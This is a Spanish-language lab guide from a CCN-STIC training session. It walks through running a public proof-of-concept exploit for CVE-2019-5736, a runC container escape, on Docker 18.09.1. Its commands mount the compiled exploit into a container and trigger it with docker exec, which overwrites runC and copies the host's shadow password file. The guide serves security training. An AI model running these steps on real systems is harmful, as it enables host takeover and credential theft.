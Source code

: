 # Guía de laboratorio Parte 1
Guía del laboratorio impartido por sidertia en las jornadas CCN-STIC

Tiempo estimado: **10 min**

Se ejecutará un exploit desarrollado por Nick Frichette el cual aprovecha una vulnerabilidad descubierta en febrero de 2019 identificada como CVE-2019-5736.
***
## ÍNDICE 📋
1. [CVE-2019-5736](#id1)
    1. [Ejecución ](#id12)

## Requisitos

1. cambiar a directorio Parte4
````
cd ~/contenedoresyseguridad/Seccion4DockerEscape
````
2. Backup runc
````
sudo cp /usr/sbin/runc /usr/sbin/runc.backup
````


<div id='id1'></div>

## CVE-2019-5736

Si se desea más información se puede consultar una explicación detallada del funcionamiento en el siguiente repositorio:

https://github.com/Frichetten/CVE-2019-5736-PoC

El funcionamiento general del exploit es el siguiente, teniendo en cuenta que un atacante ha conseguido una shell en uno de nuestros contenedores:

1. Se ejecuta el exploit en el contenedor. Queda a la escucha.
2. Cuando desde el host se ejecute un exec en el contenedor llamando a sh, el contenedor sobreescribe runC por un payload deseado.

Esto se realiza mediante el acceso a runc por medio del link simbólico /proc/self/exe que apuntará a runC en el momento de ejecutar el exploit en el contenedor.
Al realizar un exec desde fuera, el exploit sobreescribe runC por el payload deseado

En nuestro caso, vamos a ejecutar el exploit en nuestra instalación docker por defecto versión 18.09.1.
Ya estamos listos para escapar de un contenedor sobreescribiendo runC y ejecutando nuestro payload como root.

<div id='id12'></div>

## Ejecución

1. **En el Host**. Para simular a un atacante, ejecutaremos una shell y mapearemos el exploit compilado en un contenedor de base ubuntu en la carpeta tmp. 
````
sudo chmod 777 /home/administrator/contenedoresyseguridad/Seccion4DockerEscape/main

docker run --name contcomprometido -v /home/administrator/contenedoresyseguridad/Seccion4DockerEscape/main:/tmp/main -it ubuntu /bin/bash
````
2. **En la shell del contenedor comprometido** recién creado cambiar de directorio a tmp y ejecutar el exploit.
````
cd /tmp
./main
````
3. **Abrir una nueva sesión ssh con el host.** No cerrar ni salir de la del punto 2. Ejecutar /bin/sh en el contenedor comprometido, momento en el que se sobreescribirá runC por el payload y se ejecutará con permisos de root en el Host.
````
docker exec -it contcomprometido /bin/sh
````
4. Observamos que en la **shell de contcomprometido** obtenemos la salida overwritten succesfully.
**En el host** observamos el fichero /tmp/ShadowOwnedBySidertia , el cual es una copia del fichero de contraseñas shadow del host.
